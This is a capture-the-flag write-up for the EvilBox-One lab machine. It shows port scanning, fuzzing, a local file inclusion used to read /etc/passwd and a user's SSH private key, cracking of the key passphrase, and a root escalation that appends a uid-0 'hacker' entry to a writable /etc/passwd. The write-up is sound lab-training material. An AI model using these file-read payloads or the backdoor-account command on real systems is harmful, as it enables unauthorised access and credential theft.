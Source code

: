 ```yaml
---
title: "Proving grounds Play: EvilBox-One"
layout: post
date: 2023-09-02 03:00
categories: writeup
---
```


Proving grounds Play - EvilBox-One CTF writeup.

## Nmap

```sh
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## PORT 80 || Web

![img](/assets/images/CTF/Proving_Grounds/EvilBox-One/web.png)

## Fuzzing

### Files

![img](/assets/images/CTF/Proving_Grounds/EvilBox-One/robots.png)

### Directory

![img](/assets/images/CTF/Proving_Grounds/EvilBox-One/dir1.png)

Fuzz for files in `/secrets` directory.

![img](/assets/images/CTF/Proving_Grounds/EvilBox-One/dir2.png)

**Found file evil.php**

http://192.168.152.212/secret/evil.php

## Fuzz for paramaters

http://192.168.152.212/secret/evil.php?FUZZ=/etc/passwd

Trying local file inclusion vulnerability to check the words retieved in the response to confirm the parameter.

![img](/assets/images/CTF/Proving_Grounds/EvilBox-One/param.png)

http://192.168.152.212/secret/evil.php?command=/etc/passwd

![img](/assets/images/CTF/Proving_Grounds/EvilBox-One/lfi.png)

As shown in the above `/etc/passwd` file we have a user `mowree`.

```sh
mowree:x:1000:1000:mowree,,,:/home/mowree:/bin/bash
```

Using the LFI vulnerability we can obtain the SSH key for the user `mowree`.

http://192.168.152.212/secret/evil.php?command=/home/mowree/.ssh/id_rsa

![img](/assets/images/CTF/Proving_Grounds/EvilBox-One/mowree-ssh.png)

SSH to mowree using the SSH key.

Using id_rsa key to login to the `mowree` user account is prompted with password to continue. So use `ssh2john` to create hash for the SSH key and crack the same using john.

![img](/assets/images/CTF/Proving_Grounds/EvilBox-One/crack-password.png)

Extracted password `unicorn`

**Initial Foothold Obtained**

![img](/assets/images/CTF/Proving_Grounds/EvilBox-One/user.png)

## Privilege Escalation

Check the permissions for `/etc/passwd`.

/etc/passwd is writable so we can create our own root user.

**Writing new user to /etc/passwd**

```sh
echo "hacker:bWBoOyE1sFaiQ:0:0:root:/root:/bin/bash" >> /etc/passwd
```

Switch to user `hacker` and enter password `mypass` to obtain root.

![img](/assets/images/CTF/Proving_Grounds/EvilBox-One/root.png)

Thanks for reading!

For more updates and insights, follow me on Twitter: [@thevillagehacker](https://twitter.com/thevillagehackr).